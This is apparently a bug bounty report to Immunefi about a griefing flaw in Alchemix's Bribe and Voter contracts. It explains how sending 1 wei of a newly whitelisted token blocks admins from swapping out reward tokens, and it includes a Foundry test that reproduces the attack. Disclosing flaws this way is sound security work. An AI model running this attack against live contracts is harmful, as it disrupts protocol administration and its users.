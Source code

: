 
# Griefing attack prevents admins from disabling reward tokens

Submitted on Thu May 09 2024 21:16:13 GMT-0400 (Atlantic Standard Time) by @infosec_us_team for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30985

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Description

The `Voter` smart contract can whitelist - and remove from the whitelist - tokens with the functions:
```
function whitelist(address _token) public {
    require(msg.sender == admin, "not admin");
    require(_token != address(0), "cannot be zero address");
    _whitelist(_token);
}
function removeFromWhitelist(address _token) external {
    require(msg.sender == admin, "not admin");
    _removeFromWhitelist(_token);
}
```

The Voter's whitelist is used in the `Bribe` smart contract to ensure only whitelisted tokens are **enabled** when calling `Bribe.addRewardToken(...)`.

In Bribe, it is impossible to disable a token explicitly; it is only possible for admins to "**disable an already enabled token while replacing it with a new one**" calling `Voter.swapReward(...)`, then the Voter smart contract will call `Bribe.swapOutRewardToken(...)`.

```
/// @inheritdoc IVoter
function swapReward(address gaugeAddress, uint256 tokenIndex, address oldToken, address newToken) external {
    require(msg.sender == admin, "only admin can swap reward tokens");
    IBribe(bribes[gaugeAddress]).swapOutRewardToken(tokenIndex, oldToken, newToken);
}
```
> swapReward in Voter

```
function swapOutRewardToken(uint256 oldTokenIndex, address oldToken, address newToken) external {
    // code here removed for simplicity

    isReward[oldToken] = false;
    isReward[newToken] = true;

    // code here removed for simplicity
}
```
> swapOutRewardToken in Bribe

We discover a griefing attack that makes the `swapOutRewardToken(...)` revert, preventing reward tokens from being disabled.

## Vulnerability Details

The `swapOutRewardToken(...)` function requires the new token that admins are trying to replace the old token with not to exist. (**rewards[newToken]** must be equal to false).
```
function swapOutRewardToken(uint256 oldTokenIndex, address oldToken, address newToken) external {
    require(msg.sender == voter, "Only voter can execute");
    require(IVoter(voter).isWhitelisted(newToken), "New token must be whitelisted");
    require(rewards[oldTokenIndex] == oldToken, "Old token mismatch");

    // Check that the newToken does not already exist in the rewards array
    for (uint256 i = 0; i < rewards.length; i++) {
        require(rewards[i] != newToken, "New token already exists");
    }

    isReward[oldToken] = false;
    isReward[newToken] = true;

    // Since we've now ensured the new token doesn't exist, we can safely update
    rewards[oldTokenIndex] = newToken;

    emit RewardTokenSwapped(oldToken, newToken);
}
```
> Github link: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol#L138-L155

### Attack vector

The logic of the public function `Bribe.notifyRewardAmount(token, amount)`, automatically enables any whitelisted token you pass as a parameter if it is not already enabled so the attack vector is:

**Step 1-** An admin whitelists a token in **Voter** (say **DAI**) to replace the old reward token with it.

**Step 2-** A malicious entity calls `Bribe.notifyRewardAmount(DAI, 1)` sending **1 wei** of day. The **DAI** token will be enabled automatically.

**Step 3-** The admin calls `Voter.swapReward(...)` to disable the old token and enable **DAI**, but his transaction reverts because **DAI** is already enabled.

Hence, the old reward token can't be disabled.

## Impact Details

Griefing attack that prevents admin from disabling a token.

> The 5-reports/48-hours limit makes time management crucial, and every day we invest in attempting to escalate the impact of a specific report decreases the total number of bugs we can submit to the Boost.
>
> We suspect the impact could be increased from griefing to a denial of service in parts of the protocol or the Bribe itself, but we can't afford to allocate time to dig deeper.
        
## Proof of concept
## Proof of Concept

The following test replicates the attack vector.

Add it to `alchemix-v2-dao/src/test/Voting.t.sol`:

```
    function testFrontRunningSwapOutRewardToken() public {

        // Get the bribe address
        address bribeAddress = voter.bribes(address(sushiGauge));

        // Whitelist USDT
        hevm.prank(address(timelockExecutor));
        voter.whitelist(usdt);

        // Add USDT as a reward token
        hevm.prank(address(sushiGauge));
        IBribe(bribeAddress).addRewardToken(usdt);

        // Check that the reward token at index 0 is ACLX and reward token at index 1 is USDT
        assertEq(IBribe(bribeAddress).rewards(0), address(alcx), "reward token should be alcx");
        assertEq(IBribe(bribeAddress).rewards(1), usdt, "reward token should be usdt");

        // Whitelist DAI
        hevm.prank(address(timelockExecutor));
        voter.whitelist(dai);

        // Create attacker address
        address attacker = address(0x99);
        // Give the attacker 1 wei of DAI
        deal(address(dai), attacker, 1);
        // Prank the attacker
        hevm.prank(attacker);
        // Approve the bribe to spend 1 wei of DAI
        IERC20(dai).approve(bribeAddress, 1);
        // Prank the attacker
        hevm.prank(attacker);
        // Sends 1 wei of DAI to the bribe, then adds the DAI token
        // as reward and prevents admins from removing the USDT token as reward
        IBribe(bribeAddress).notifyRewardAmount(dai, 1);
        
        // Admin attempts to swap out USDT for DAI - but his transaction reverts
        // USDT can't be removed from the list of reward tokens
        hevm.expectRevert(abi.encodePacked("New token already exists"));
        hevm.prank(address(voter));
        IBribe(bribeAddress).swapOutRewardToken(1, usdt, dai);

    }
```